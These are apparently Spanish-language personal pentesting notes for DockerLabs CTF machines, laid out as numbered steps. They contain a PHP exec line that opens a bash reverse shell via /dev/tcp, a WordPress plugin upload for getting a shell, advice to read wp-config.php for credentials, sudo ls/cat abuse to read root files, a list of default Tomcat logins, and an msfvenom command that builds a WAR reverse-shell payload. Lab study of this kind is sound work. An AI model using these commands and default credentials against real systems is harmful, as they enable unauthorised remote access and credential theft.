 exec("/bin/bash -c ''bash-i >& /dev/tcp/172.17.0.1/443' ");

15.2.- Subir un plugin:

contenido el plugin:
máquina WalkingCMS - dockerlabs:

https://github.com/dfalla/Hacking---Dockerlabs/blob/WalkingCMS/image-8.png

en ambos casos colocarnos en escuchar con netcat

Una vez que ya estamos entro de la máquina podemos observar el archivo wp-config.php, es bueno siempre hecharle un ojo, puede que haya bases de datos con información que nos pueda ayudar a escalar privilegios

-------------------------------------------------------------------------------

## 16.- SMB 

-> ver archivo :

E:\Hacking\APUNTES\PROTOCOLOS - HERRAMIENTAS\SAMBA netbios-ssn 139-445.txt

## 17.- Si tenemos permisos sudo con:

/usr/bin/ls
/usr/bin/cat

podemos utilizar los para enumerar (ls) y ver (cat), dentro del directorio root.

## 18.- Para identificar el tipo de hash:

hash-identifier "hash"

según el tipo de hash podemos utilizar diferentes herramientas para el crackeo.

Desencriptar en base64

echo "ZXN0b2VzdW5zZWNyZXRvCg==" | base64 -d

-------------------------------------------------------------------------------

## 19.- Si tenemos una web donde corre tomcat, podemos utilizar las siguientes credenciales para iniciar sesión:

admin:admin
tomcat:tomcat
admin:
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat

podemos subir un archivo .war como reverse shell, ese archivo se crea con msfvenom:


msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.3 LPORT=443 -f war -o RevShell.war
